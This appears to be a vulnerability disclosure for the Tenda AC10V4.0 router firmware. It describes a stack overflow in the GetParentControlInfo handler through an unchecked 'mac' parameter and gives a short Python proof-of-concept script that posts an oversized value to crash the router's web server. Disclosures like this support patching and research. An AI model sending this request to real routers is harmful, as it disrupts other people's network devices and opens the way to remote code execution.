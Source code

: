 # Tenda AC10V4.0 were discovered to contain a stack overflow via the mac parameter in the GetParentControlInfo function.

> vendor:Tenda
>
> product:AC10V4
>
> version:US_AC10V4.0si_V16.03.10.13_cn_TDC01
>
> type:Stack Overflow  

## Vulnerability Description

Tenda AC10V4.0 si_V16.03.10.13_cn_TDC01 were discovered to contain a stack overflow via the mac parameter in the GetParentControlInfo function.

## Vulnerability Details

In function GetParentControlInfo line 35, it reads in a user-provided parameter, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

[](https://github.com/aixiao0621/Tenda/blob/main/AC10/src0.jpg)

## Recurring vulnerabilities and POC

Run poc and you will see process httpd crash, segmentation fault.

```
import requests
    
host = "192.168.59.136:80"
cy = b'a'*1000
def exploit_GetParentControlInfo():
    url = f"http://{host}/goform/GetParentControlInfo"
    data = {
        b'mac':cy
    }
    res = requests.post(url=url,data=data)
    print(res.content)
exploit_GetParentControlInfo()
```

[](https://github.com/aixiao0621/Tenda/blob/main/AC10/src1.jpg)
